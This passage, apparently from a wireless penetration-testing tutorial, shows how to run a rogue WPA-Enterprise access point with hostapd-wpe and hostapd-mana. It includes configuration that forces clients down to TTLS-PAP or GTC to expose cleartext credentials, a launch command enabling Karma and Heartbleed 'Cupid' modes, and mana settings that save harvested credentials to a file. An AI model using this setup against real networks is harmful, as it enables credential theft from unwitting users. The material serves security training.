 # EAP Configuration
eap_server=1
eap_user_file=hostapd.eap_user


# Certificates

ca_cert=ca.pem
server_cert=server.pem
private_key=server-key.pem
private_key_passwd=whatever
dh_file=dh.pem
</code></pre>
<p>Next, to gain refined control over EAP method negotiation between our fake access point and the client, we need to create the <code>hostapd.eap_user</code> file referenced in our hostapd.conf file for Mana with the following content:</p>
<pre><code class="language-configuration">* PEAP,TTLS,TLS,MD5,GTC,FAST
"t" TTLS-PAP,GTC,TTLS-CHAP,TTLS-MSCHAP,TTLS-MSCHAPV2,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAP "challenge1234" [2]
</code></pre>
<p>With this <code>hostapd.eap_user</code> file, we instruct client devices attempting to join our network to use <code>TTLS-PAP</code> as their authentication method. In 802.1x security, the client and access point negotiate which method to use. By specifying the order of methods—starting with TTLS-PAP, then GTC, followed by TTLS-CHAP, TTLS-MSCHAP, and so on-we can potentially trick vulnerable client devices into using TTLS-PAP or GTC, thereby exposing their cleartext identity and credentials. Additionally, we specify the challenge password <code>challenge1234</code>, which was used in the generation of our server's private keys.</p>
<p>At this stage, we can start the rogue access point using <code>hostapd-wpe</code> with the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo hostapd-wpe -c -k hostapd.conf

rfkill: Cannot open RFKILL control device                                                                                                                   
random: Only 15/20 bytes of strong random data available                                                                                                    
random: Not enough entropy pool available for secure operations                                                                                             
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects                                            
wlan1: interface state UNINITIALIZED-&gt;ENABLED                                                                                                               
wlan1: AP-ENABLED
</code></pre>
<p>Here’s an explanation of the options used with hostapd-wpe:</p>
<ul>
<li>
<code>-c Cupid Mode</code>: Enables Heartbleed vulnerability testing for connected clients. This mode attempts to exploit vulnerable devices by leveraging the Heartbleed bug in OpenSSL.</li>
<li>
<code>-k Karma Mode</code>: Configures the rogue AP to respond to all probe requests, effectively tricking clients into connecting by mimicking their preferred networks.</li>
</ul>
<p>Optionally, if we prefer to use <code>hostapd-mana</code> to host the rogue AP, we will need to enable Karma Mode (Mana) in the configuration file. Unlike <code>hostapd-wpe</code>, which allows us to specify Karma Mode directly via the command line argument (-k), <code>hostapd-mana</code> requires us to configure it within the file itself. This setup allows the rogue AP to respond to all probe requests.</p>
<p>To use hostapd-mana, <code>append</code> the configuration <code>hostapd.conf</code> file with following:</p>
<pre><code class="language-configuration">enable_mana=1
mana_loud=1
mana_credout=credentials.creds
mana_eapsuccess=1
mana_wpe=1
</code></pre>
<ul>